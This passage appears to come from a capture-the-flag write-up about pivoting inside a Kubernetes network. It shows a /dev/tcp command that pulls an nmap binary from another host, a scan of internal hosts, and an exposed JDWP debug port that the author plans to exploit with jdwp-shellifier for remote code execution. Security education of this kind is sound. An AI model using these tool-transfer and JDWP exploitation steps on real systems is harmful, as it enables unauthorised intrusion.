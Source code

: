 ```
$ cat </dev/tcp/10.200.0.13/1234 >nmap
```

The nmap binary can then be used to scan the internal IP range of k8s revealing IPs which are up along with their internal hostnames.

![](img/20241112152737.png)

The important bit to notice here is that the `jgames` host has `-debug` suffix in its hostname, suggesting that something more could be exposed to the internal k8s network than through the "public" hostname `jgames.lore.tcc`. This proves to be the case and except for the internal HTTP port at 8080, the port 5005 is also open.

![](img/20241112152838.png)

This port is used as a debug port for JDWP (Java Debug Wire Protocol) for remote debugging of Java apps. To gain remote code execution using this protocol, [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier) can be used.
